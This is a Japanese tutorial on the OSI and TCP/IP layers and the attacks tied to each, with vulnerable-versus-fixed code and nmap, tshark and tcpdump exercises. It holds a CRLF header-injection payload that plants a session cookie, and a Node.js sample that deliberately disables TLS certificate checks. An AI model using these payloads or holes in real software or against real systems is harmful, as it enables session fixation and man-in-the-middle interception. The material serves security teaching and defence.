




## TL;DR

- **OSI 7 層モデル**は通信を 7 つの抽象層に分けた概念モデルだ。実際の実装は **TCP/IP の 4 層モデル**（アプリ・トランスポート・インターネット・リンク）で動く。層の概念を理解すると「どの層でどの攻撃が起きているか」が整理できる。
- **TCP**（Transmission Control Protocol）は信頼性のある順序付き通信を提供し、**UDP**（User Datagram Protocol）は高速だが信頼性なしだ。HTTP/HTTPS は TCP の上で動き、DNS・DHCP は UDP を使う。
- 各層にはそれぞれ固有の脆弱性がある。**L2（データリンク層）では ARP スプーフィング**、**L3（ネットワーク層）では IP スプーフィング**、**L4（トランスポート層）では TCP ハイジャック**、**L7（アプリケーション層）では HTTP インジェクション**が代表例だ。

---

## なぜ重要か

「ネットワークの詳しい仕組みを知らなくても Web アプリは作れるのでは？」

この問いに即答できないなら、この記事が助けになる。**セキュリティの脅威は特定の層で発生するため、「どの層で何が起きているか」を理解しないと攻撃の根本原因も防御策も的外れになる。** OSI モデルを知れば、Wireshark でキャプチャしたパケットを解読し、攻撃者がどの層のプロトコルを悪用しているかを素早く特定できる。

具体的に挙げると：

- CTF の Forensics 問題で Wireshark のパケットキャプチャ（`.pcap` ファイル）を解析して隠されたデータを見つける
- ペネトレーションテストで ARP スプーフィングを実行して同一 LAN 上のトラフィックを盗聴する
- TLS 証明書の検証状態を確認して、正しく HTTPS が設定されているかを診断する
- TCP の 3 ウェイハンドシェイクの仕組みを理解して SYN フラッド攻撃の原理を把握する
- HTTP レスポンスヘッダのセキュリティ設定を確認して不適切な設定を発見する

> **CTF とは**: Capture The Flag の略。セキュリティ技術を競う演習形式。Forensics はパケット・メモリ解析が主題。
> **ペネトレーションテスト（ペンテスト）とは**: 依頼を受けてシステムへ合法的に侵入テストを行うこと。許可を得たシステムのみが対象。

---

## 読む前に確認したい用語

難しい用語は出てきたタイミングで解説するが、以下の概念は記事全体を通して何度も登場する。ざっと目を通してから先に進もう。

**OSI モデルの各層**
- **L1（物理層）**: 電気信号・光信号・電波などの物理的な伝送媒体。ケーブル・Wi-Fi など。
- **L2（データリンク層）**: 同一ネットワーク内の機器間通信。MAC アドレスで識別。Ethernet・Wi-Fi（802.11）・ARP。
- **L3（ネットワーク層）**: 異なるネットワーク間の経路制御。IP アドレスで識別。IP・ICMP。
- **L4（トランスポート層）**: エンド・ツー・エンドの通信制御。ポート番号で識別。TCP・UDP。
- **L5〜L6（セッション・プレゼンテーション層）**: セッション管理・データ変換・暗号化。TLS/SSL はここに位置づけられる。
- **L7（アプリケーション層）**: ユーザーが直接使うプロトコル。HTTP・HTTPS・DNS・SMTP・FTP など。

**TCP/IP の基礎**
- **TCP（Transmission Control Protocol）**: 信頼性のある順序付き全二重通信を提供するプロトコル。3 ウェイハンドシェイクで接続を確立する。
- **UDP（User Datagram Protocol）**: 順序保証なし・再送なしの軽量プロトコル。DNS・動画ストリーミング・VoIP 等で使う。
- **3 ウェイハンドシェイク**: TCP 接続確立のシーケンス。SYN → SYN-ACK → ACK の 3 手順で接続を確立する。
- **ポート番号**: 同一 IP 上の複数サービスを区別する 0〜65535 の番号。0〜1023 はウェルノウンポートと呼ばれ root 権限が必要。

**セキュリティ用語**
- **スニッフィング（盗聴）**: ネットワーク上を流れるパケットを傍受して内容を読む行為。
- **スプーフィング（なりすまし）**: 送信元アドレス等を偽造して別の機器になりすます攻撃。
- **中間者攻撃（MITM）**: 通信の途中に割り込んで内容を盗聴・改ざんする攻撃。
- **CVE**: Common Vulnerabilities and Exposures の略。世界共通の脆弱性識別番号。
- **CVSS**: Common Vulnerability Scoring System。脆弱性の深刻度を 0.0〜10.0 で評価する指標。

---

## 仕組み

### OSI 層の種類と攻撃面



各層には固有の攻撃面がある。L2 では ARP スプーフィング・L3 では IP スプーフィング・L4 では SYN フラッド・L7 では HTTP インジェクションが代表例だ。「どの層の問題か」を特定することが、攻撃の理解と防御策の選択の起点になる。

---

### OSI 7 層と TCP/IP 4 層の対応



TCP/IP は実装モデル・OSI は分析モデルだ。攻撃や防御を整理するときはまずどの層の問題かを特定する。**攻撃はどの層でも発生するため、「この攻撃は何層の問題か」と考える習慣がトラブルシュートとセキュリティ分析の起点になる。**

**計算量まとめ**

- **パケット処理**: O(n)。n は経由するホップ数（ルーター数）。各ホップで L3 ヘッダを処理する。
- **TCP セッション管理**: O(s)。s はアクティブなセッション数。SYN Cookie 等で O(1) に最適化できる。

**OSI モデルの弱点 — 下位層の信頼前提**

上位層は下位層が正しく動作することを前提としている。L2 の ARP スプーフィングが成功すると通信経路は掌握されるが、TLS の証明書検証が正しく行われていれば通信内容そのものは保護される。ただし証明書検証を無効化しているアプリケーションでは L2 侵害で通信内容も露出する。

---

### TCP 接続のライフサイクル



TCP は接続状態を保持するため、接続管理の欠陥が DoS やセッションハイジャックにつながる。シーケンス番号（X・Y）は現代 OS ではランダム性を含むアルゴリズムで生成されるため予測が困難だが、古い実装では連番に近い値が使われていた。

> **ISN（Initial Sequence Number）とは**: TCP 接続開始時に各エンドポイントが選ぶシーケンス番号の初期値。X はクライアントが・Y はサーバーが選ぶ初期値。現代 OS はランダム性を含むアルゴリズムで生成して予測を困難にしている。予測されると攻撃者が正当な通信を偽造できる。

**計算量まとめ**

- **3 ウェイハンドシェイク**: O(1)。3 往復で接続確立。RTT（往復時間）に依存する。
- **SYN フラッド検出**: O(s)。s は半開き接続数。レート制限で O(1) に緩和できる。

> **SYN フラッド攻撃とは**: 攻撃者が大量の SYN パケットを送り続けて、サーバーの半開き接続テーブルを枯渇させるサービス拒否（DoS）攻撃。`SYN Cookie` という手法で緩和できる。

**TCP の弱点 — SYN フラッドと TCP リセット**

ACK を返さずに SYN だけ送り続けると、サーバーは各接続に対してリソースを確保して応答を待ち続ける（半開き接続）。大量の半開き接続でサーバーリソースが枯渇してサービス拒否（DoS）が成立する。また RST パケットを偽造することで既存の TCP セッションを強制切断できる（TCP リセット攻撃）。

---

### ARP スプーフィング攻撃フロー



ARP は認証機構を持たないため、ARP キャッシュを書き換えられることが根本原因だ。Dynamic ARP Inspection（DAI）等の防御が有効な場合は攻撃がブロックされる。

> **MAC アドレスとは**: ネットワーク機器を識別する 48 ビットのハードウェアアドレス。`AA:BB:CC:DD:EE:FF` のような 16 進数表記。L2 レベルで使われる。

**計算量まとめ**

- **ARP キャッシュ汚染**: O(1)。偽の ARP 応答を 1 パケット送るだけで成立。
- **ARP スプーフィング検出**: O(n)。n はネットワーク上のホスト数。ARP テーブルの監視が必要。

**ARP の弱点 — ステートレス設計**

ARP はリクエストなしに受け取った ARP 応答でもキャッシュを更新する（Gratuitous ARP）。この仕様が ARP スプーフィングを簡単にしている。`arp-scan`・`arpspoof`（合法ラボ環境限定）でテストできる。防御は動的 ARP インスペクション（DAI）や静的 ARP エントリの設定で行う。

---

## よくある誤解

実装に進む前に、間違えやすいポイントを整理しておく。「あー、そうか」と思えるものがあれば、コードを書くときに思い出してほしい。

**「HTTPS を使えば通信は完全に安全」**
HTTPS（TLS）は L7 の通信内容を暗号化するが、**L3 の IP ヘッダ（送受信者の IP アドレス）や L4 の TCP ヘッダ（ポート番号）は暗号化されない**。メタデータ（誰が誰と通信しているか）は見える。さらに TLS 証明書の検証を適切に行わないと、証明書を偽造した中間者攻撃が成立する。

**「UDP は信頼性がないから使うべきではない」**
UDP の「信頼性なし」は欠点ではなく設計上の選択だ。**再送処理・順序保証が不要なアプリケーション（DNS・動画配信・ゲーム）では UDP の方が低遅延で適している。** 信頼性が必要なら TCP を使い、速度が重要なら UDP の上にアプリ層の再送機構を実装する（QUIC プロトコルがこの例）。

**「ポート 80 は HTTP・443 は HTTPS に決まっている」**
ウェルノウンポート（0〜1023）は慣習だが強制ではない。HTTP が 8080 番で動いていることも多く、HTTPS が 8443 番で動くこともある。**ポート番号だけでサービスを判断してはいけない。** `nmap -sV` でバナーグラビングを行いサービスの実態を確認する。

**「OSI の 7 層はすべて独立している」**
各層は独立して機能することを目指しているが、実際は相互依存する部分がある。例えば **TLS は概念上 L5（セッション層）だが、実装では L4 の TCP の上に乗る L7 プロトコルとして扱われることが多い**。OSI モデルはあくまで概念整理のためのツールで、実装の厳密な境界を定めるものではない。

**「IPアドレスが見えればどのホストかわかる」**
IP アドレスはネットワーク経路を示すものであり、NAT（Network Address Translation）環境では**一つのグローバル IP の裏に多数のプライベート IP ホストが隠れている**。NAT の内側のホストは外部から直接識別できない。ペネトレーションテストでは NAT の存在を考慮した調査が必要だ。

> **NAT（Network Address Translation）とは**: プライベート IP アドレスとグローバル IP アドレスを変換する仕組み。一般的な家庭や企業のルーターが行っている。外部から内部の個々のホストを直接識別できなくなる。

---

## 脆弱なコード例

> 本記事の攻撃例は学習環境・CTF・明示的に許可された検証環境のみで実施してください。
> 実システムへの無断検証は不正アクセス禁止法や各国法令・利用規約違反となる可能性があります。

### PHP — HTTP ヘッダインジェクション（L7 アプリケーション層）

```php
<?php
$redirect_url = $_GET['url'] ?? '/home';

header("Location: " . $redirect_url);
exit();
```

> **`$_GET['url']`**: HTTP GET リクエストのクエリパラメータ `url` の値を取得する PHP の超グローバル変数。例えば `/redirect?url=https://example.com` でアクセスすると `$_GET['url']` が `"https://example.com"` になる。
> **`header()` とは**: PHP で HTTP レスポンスヘッダを送信する関数。`Location:` ヘッダを送るとブラウザはその URL にリダイレクトする。

**どこが問題か**: `?url=https://evil.com%0d%0aSet-Cookie:%20session=hijacked` のように URL エンコードした改行（`%0d%0a`、つまり `\r\n`）を送ると、HTTP ヘッダの区切りとして解釈されて任意のヘッダ（`Set-Cookie` 等）を注入できる。これにより攻撃者が任意のセッション Cookie を被害者のブラウザにセットしてセッション固定攻撃を成立させられる。

> **`%0d%0a` とは**: URL エンコードされた CRLF（Carriage Return + Line Feed）。HTTP ヘッダは CRLF で区切られるため、これを URL に混入させると HTTP ヘッダを分割・追加できる（HTTP ヘッダインジェクション）。

```php
<?php
$raw_url = $_GET['url'] ?? '/home';

$allowed_hosts = ['example.com', 'www.example.com', 'app.example.com'];
$parsed = parse_url($raw_url);

if (isset($parsed['host']) && !in_array($parsed['host'], $allowed_hosts, true)) {
    http_response_code(400);
    exit("許可されていないリダイレクト先です");
}

if (strpos($raw_url, "\r") !== false || strpos($raw_url, "\n") !== false) {
    http_response_code(400);
    exit("無効な URL です");
}

$validated = filter_var($raw_url, FILTER_VALIDATE_URL);
if ($validated === false && strpos($raw_url, '/') !== 0) {
    http_response_code(400);
    exit("無効な URL 形式です");
}

header("Location: " . $raw_url);
exit();
```

> **`parse_url()` とは**: PHP で URL をコンポーネント（スキーム・ホスト・パス等）に分解する関数。`$parsed['host']` でホスト部分を取得して許可リストと照合する。
> **`FILTER_VALIDATE_URL` とは**: PHP で URL 形式として有効かどうかを検証するフィルタ（validate）。`FILTER_SANITIZE_URL`（sanitize・文字除去）とは異なり、妥当性を確認する用途に使う。
> **`%0d%0a` の内訳**: `0d` は 16 進数で CR（Carriage Return・キャリッジリターン）・`0a` は LF（Line Feed・ラインフィード）を表す。この 2 文字の組み合わせ（CRLF）が HTTP ヘッダの行区切りとなるため、URL 内に含めると任意ヘッダを挿入できる。

CRLF 文字の明示的な除去とリダイレクト先のホワイトリスト検証を組み合わせることで、HTTP ヘッダインジェクションとオープンリダイレクトを同時に防ぐ。

リダイレクト先は信頼できる宛先のみ許可し、HTTP ヘッダ区切り文字（CRLF）を必ず拒否することが、HTTP ヘッダインジェクション防止の基本原則だ。

---

### Node.js — TLS 証明書の検証スキップ（L5〜L6 セキュリティ層）

```javascript
const https = require('https');

function fetchData(url) {
    return new Promise((resolve, reject) => {
        const options = {
            rejectUnauthorized: false,
        };
        https.get(url, options, (res) => {
            let data = '';
            res.on('data', chunk => data += chunk);
            res.on('end', () => resolve(data));
        }).on('error', reject);
    });
}

fetchData('https://api.internal.example.com/data').then(console.log);
```

> **`rejectUnauthorized: false` とは**: Node.js の `https` モジュールで TLS 証明書の検証を無効化するオプション。サーバー証明書が自己署名・期限切れ・不正な場合でも接続を続ける。開発環境での一時的な回避策として使われるが、本番環境では絶対に使ってはならない。

**どこが問題か**: `rejectUnauthorized: false` で証明書検証を無効化すると、MITM 攻撃者が偽の TLS 証明書を提示してもエラーにならない。攻撃者が通信経路に入り込んで偽のサーバーになりすますと、全ての HTTPS 通信内容が平文で読まれる。開発環境での設定が本番に混入するケースが後を絶たない。

```javascript
const https = require('https');
const fs = require('fs');

function fetchData(url, caPath) {
    return new Promise((resolve, reject) => {
        let caData;
        if (caPath) {
            if (!fs.existsSync(caPath)) {
                return reject(new Error(`CA 証明書ファイルが見つかりません: ${caPath}`));
            }
            caData = fs.readFileSync(caPath);
        }

        const options = {
            rejectUnauthorized: true,
            ca: caData,
        };
        https.get(url, options, (res) => {
            if (res.statusCode !== 200) {
                return reject(new Error(`HTTP ${res.statusCode}`));
            }
            let data = '';
            res.on('data', chunk => data += chunk);
            res.on('end', () => resolve(data));
        }).on('error', reject);
    });
}

const CA_PATH = process.env.INTERNAL_CA_CERT;
fetchData('https://api.internal.example.com/data', CA_PATH).then(console.log);
```

> **`fs.existsSync(caPath)`**: ファイルが存在するかどうかを同期的に確認するメソッド。`readFileSync` の前に存在確認を行うことで、ファイルが見つからない場合のエラーをわかりやすいメッセージで報告できる。
> **`process.env.INTERNAL_CA_CERT`**: 証明書ファイルのパスを環境変数から取得する。設定をコードにハードコードせず環境変数で管理することで、環境ごとの設定を切り替えられる。

`rejectUnauthorized: true`（デフォルト）を明示して証明書検証を有効化し、カスタム CA が必要な場合は証明書ファイルを指定することで、TLS 中間者攻撃（MITM）を防ぐ。

TLS の検証を無効化せず、信頼する認証局を明示的に管理することが、HTTPS 通信を安全に扱う設計原則だ。

---

### Python — L4（トランスポート層）の TCP タイムアウト未設定によるリソース枯渇

```python
import socket

def check_host(host: str, port: int) -> bool:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        sock.connect((host, port))
        return True
    except ConnectionRefusedError:
        return False
    finally:
        sock.close()

hosts = ['10.0.0.1', '10.0.0.2', '10.0.0.3']
for host in hosts:
    print(f"{host}: {'UP' if check_host(host, 80) else 'DOWN'}")
```

> **`socket.AF_INET`**: IPv4 アドレスファミリを指定する定数。`AF_INET6` は IPv6 用。
> **`socket.SOCK_STREAM`**: TCP ソケットを作成する定数。`SOCK_DGRAM` は UDP 用。

**どこが問題か**: `sock.connect()` にタイムアウトを設定していないため、到達不能なホストへの接続はシステムデフォルトタイムアウト（数分〜数十分）まで待ち続ける。多数のホストをスキャンする場合、応答しないホストが多いと全体の処理が際限なくブロックされる。攻撃者がこのスキャナを悪用してスローダウン攻撃を仕掛けることもできる。

```python
import socket
import re
import ipaddress

TIMEOUT_SEC = 2.0
ALLOWED_PRIVATE_RANGES = [
    ipaddress.IPv4Network('10.0.0.0/8'),
    ipaddress.IPv4Network('172.16.0.0/12'),
    ipaddress.IPv4Network('192.168.0.0/16'),
]

def is_allowed_host(host: str) -> bool:
    try:
        addr = ipaddress.IPv4Address(host)
        return any(addr in net for net in ALLOWED_PRIVATE_RANGES)
    except ValueError:
        return False

def check_host(host: str, port: int) -> bool:
    if not is_allowed_host(host):
        raise ValueError(f"許可されていないホスト: {host}")
    if not (1 <= port <= 65535):
        raise ValueError(f"無効なポート番号: {port}")

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(TIMEOUT_SEC)
    try:
        sock.connect((host, port))
        return True
    except (ConnectionRefusedError, socket.timeout, OSError):
        return False
    finally:
        sock.close()

hosts = ['10.0.0.1', '10.0.0.2', '10.0.0.3']
for host in hosts:
    try:
        status = 'UP' if check_host(host, 80) else 'DOWN'
        print(f"{host}: {status}")
    except ValueError as e:
        print(f"エラー: {e}")
```

> **`sock.settimeout(TIMEOUT_SEC)`**: ソケットの接続・受信操作のタイムアウトを秒単位で設定するメソッド。`TIMEOUT_SEC` 秒以内に応答がない場合 `socket.timeout` 例外が発生する。本番コードでは必ず設定する。
> **`ipaddress.IPv4Network`**: Python 標準ライブラリでプライベート IP 範囲を表すクラス。`in` 演算子で IP が範囲内かどうかを確認できる。

タイムアウトを設定してリソースの際限ない消費を防ぎ、接続先をプライベート IP 範囲に制限することで、SSRF 攻撃の防止とリソース枯渇の両方を封じる。

外部ネットワークとの通信にはタイムアウトと接続先制限を必ず設定し、無制限な通信を許さない設計がリソース枯渇と SSRF の防止の基本原則だ。

---

## 実践例 / 演習例

### Wireshark でパケットを解析する

```bash
sudo apt install wireshark tshark
sudo tshark -i eth0 -c 100 -w /tmp/capture.pcap
```

> **`tshark` とは**: Wireshark のコマンドライン版パケットアナライザ。`-i eth0` で監視するインタフェース・`-c 100` でキャプチャするパケット数・`-w` で保存先を指定する。

```bash
tshark -r /tmp/capture.pcap -Y "tcp" -T fields -e ip.src -e ip.dst -e tcp.port
```

> **`-Y "tcp"`**: ディスプレイフィルタで TCP パケットのみ表示する。Wireshark と同じフィルタ構文が使える。
> **`-T fields -e ...`**: 指定したフィールドだけをテキスト出力する。ログ解析スクリプトへの入力に便利。

### TCP 3 ウェイハンドシェイクを確認する

```bash
tshark -r /tmp/capture.pcap -Y "tcp.flags.syn==1 or tcp.flags.ack==1" -T fields \
    -e ip.src -e ip.dst -e tcp.flags -e tcp.seq -e tcp.ack
```

> **`tcp.flags.syn==1`**: Wireshark フィルタで SYN フラグが立っているパケットを絞り込む。`tcp.flags` は 1 バイトのビットフィールドで、各ビットが SYN・ACK・FIN・RST 等に対応する。

### HTTP ヘッダを確認する

```bash
curl -I https://example.com
curl -v https://example.com 2>&1 | grep -E "^[<>*]"
```

> **`curl -I`**: HTTP HEAD リクエストを送ってヘッダのみ取得するオプション（`--head` と同義）。`Content-Type`・`Server`・`X-Frame-Options` 等のセキュリティ関連ヘッダを確認できる。
> **`curl -v`**: 詳細な通信ログ（リクエストヘッダ・レスポンスヘッダ・TLS ハンドシェイク情報）を出力する（verbose）。

### nmap でポートスキャンする（合法ラボ環境のみ）

```bash
nmap -sV -p 1-1024 10.10.10.1
nmap -sT -p 80,443,22,3306 10.10.10.1
```

> **`nmap -sV`**: サービスバージョン検出スキャン（service Version）。ポートが開いているだけでなく、そのポートで動くサービスとバージョンを特定する。
> **`-sT`**: TCP フルコネクトスキャン。3 ウェイハンドシェイクを完了させてポートの開閉を確認する。ログに残りやすいが確実。
> **`nmap` とは**: Network Mapper の略。ポートスキャン・OS 検出・サービス検出ができるネットワーク調査ツール。許可を得たホストにのみ使用する。

### /proc/net/ でソケット情報を直接読む（TCP は 16 進数）

```bash
python3 -c "
import socket, struct

with open('/proc/net/tcp') as f:
    for line in f.readlines()[1:]:
        parts = line.split()
        local = parts[1]
        ip_hex, port_hex = local.split(':')
        ip = socket.inet_ntoa(struct.pack('<I', int(ip_hex, 16)))
        port = int(port_hex, 16)
        state = parts[3]
        print(f'{ip}:{port} state={state}')
"
```

> **`struct.pack('<I', ...)`**: Python でリトルエンディアン（`<`）の 4 バイト符号なし整数（`I`）としてバイト列をパックする関数。`/proc/net/tcp` の IP アドレスはリトルエンディアンの 16 進数で記録されているため、正しく変換するにはエンディアン変換が必要。
> **エンディアン（Endianness）とは**: 多バイト整数をメモリに格納する順序。リトルエンディアンは下位バイトを先に・ビッグエンディアンは上位バイトを先に格納する。ネットワークはビッグエンディアン（ネットワークバイトオーダー）が標準。

---

## 防御策

### 1. TLS の適切な設定

```bash
openssl s_client -connect example.com:443 -brief
```

> **`openssl s_client`**: OpenSSL でTLS 接続のテストと診断を行うコマンド。証明書情報・暗号スイート・TLS バージョンを確認できる。`-brief` は要約表示。

```python
import ssl
context = ssl.create_default_context()
context.minimum_version = ssl.TLSVersion.TLSv1_2
context.verify_mode = ssl.CERT_REQUIRED
context.check_hostname = True
```

> **`ssl.TLSVersion.TLSv1_2`**: TLS 1.2 以上を要求する設定。TLS 1.0・1.1 は既に非推奨で多くの環境で無効化されている。`TLSv1_3` が現在の最新推奨バージョン。

### 2. HTTP セキュリティヘッダの設定

```bash
curl -I https://example.com | grep -i "x-frame\|content-security\|strict-transport\|x-content"
```

重要なセキュリティヘッダ：
- `Strict-Transport-Security: max-age=31536000; includeSubDomains`: HTTPS 強制（HSTS）
- `Content-Security-Policy: default-src 'self'`: XSS 防止
- `X-Frame-Options: DENY`: クリックジャッキング防止
- `X-Content-Type-Options: nosniff`: MIME スニッフィング防止

> **HSTS（HTTP Strict Transport Security）とは**: ブラウザに「このサイトは常に HTTPS で接続せよ」を指示するヘッダ。最初の接続後はブラウザがHTTP → HTTPS の自動アップグレードを行い、SSL ストリッピング攻撃を防ぐ。

### 3. ARP スプーフィング対策

```bash
sudo arp -s 192.168.1.1 AA:BB:CC:DD:EE:FF
```

> **`arp -s`**: ARP エントリを静的に追加するコマンド（static の略）。デフォルトゲートウェイの MAC アドレスを固定することで ARP スプーフィングの影響を軽減できる。ただし管理コストが高い。

スイッチの Dynamic ARP Inspection（DAI）機能を有効にするとより効果的だ。その他の多層防御として以下も検討する。

- **DHCP Snooping**: 信頼できるポート以外からの DHCP 応答をブロックして、不正な DHCP サーバーによる ARP テーブル汚染を防ぐ。
- **802.1X ポート認証**: ネットワークポートへの接続を認証済み機器のみに制限して、不正なデバイスの接続自体を防ぐ。
- **VLAN 分離**: セグメント間の通信を L3 ルーター経由に強制して、ARP スプーフィングの影響範囲を同一 VLAN 内に限定する。

### 4. ネットワークトラフィックの監視

```bash
sudo tcpdump -i eth0 -n 'arp' -w /tmp/arp.pcap
```

> **`tcpdump` とは**: ネットワークパケットをキャプチャして表示・保存するコマンドラインツール。`-i eth0` で対象インタフェース・`-n` で名前解決なし・フィルタ式で対象プロトコルを絞る。
> **`'arp'`**: `tcpdump` フィルタで ARP パケットのみをキャプチャする指定。ARP スプーフィングの監視に使う。

---

## 実演ラボ案内

### 推奨学習順序

- linux-network-config（Linux ネットワーク設定コマンドの基礎）
- osi-tcpip-model（本記事）
- http-fundamentals（HTTP プロトコルの詳細）
- tls-ssl-basics（TLS の仕組みと証明書管理）

### Hack The Box

- **Challenges — Forensics カテゴリ**: `.pcap` ファイルの解析問題が頻出。Wireshark でプロトコルごとにフィルタリングして隠されたデータ（HTTP Body・DNS クエリ・TCP ストリーム）を見つける。`File > Export Objects` で HTTP から転送されたファイルを抽出できる。
- **Machines**: 多くのマシンで HTTP ヘッダの解析・TLS 設定の確認が初期偵察の一部になる。`curl -v` と `nmap -sV` の出力を丁寧に読む習慣をつける。

### TryHackMe

- **Introductory Networking**: OSI モデル・TCP/IP・パケット構造を体験的に学べる入門ルーム。
- **Wireshark 101**: パケットキャプチャの読み方と基本フィルタを段階的に練習できる。

### 自宅 VM（合法演習）

```bash
sudo apt install wireshark tshark tcpdump nmap
```

2 つのターミナルを開き、片方でパケットキャプチャ・もう片方で通信を発生させて観察する。

```bash
sudo tcpdump -i lo -n 'tcp port 8080' -A
python3 -m http.server 8080 &
curl http://localhost:8080/
```

> **`-A`**: `tcpdump` でパケットの内容を ASCII テキストとして表示するオプション。HTTP の平文テキストなら内容がそのまま見える。暗号化されていない HTTP 通信の危険性を実感できる演習だ。

---

## 関連 CVE と被害事例

